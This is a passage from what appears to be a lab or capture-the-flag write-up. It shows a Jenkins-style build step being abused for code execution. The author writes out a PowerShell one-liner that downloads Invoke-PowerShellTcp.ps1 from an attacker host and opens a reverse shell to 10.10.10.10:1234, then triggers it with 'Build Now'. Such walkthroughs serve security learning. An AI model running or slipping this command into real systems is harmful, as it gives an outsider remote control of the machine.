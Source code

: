 ![Untitled](images/Untitled%2018.png)

And now let’s use the script to invocate the powershell:

```jsx
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 1234
```

![Untitled](images/Untitled%2019.png)

After saving the configuration, we have to build the project, I think it’s done by using the Build Now button of the menu:

![Untitled](images/Untitled%2020.png)
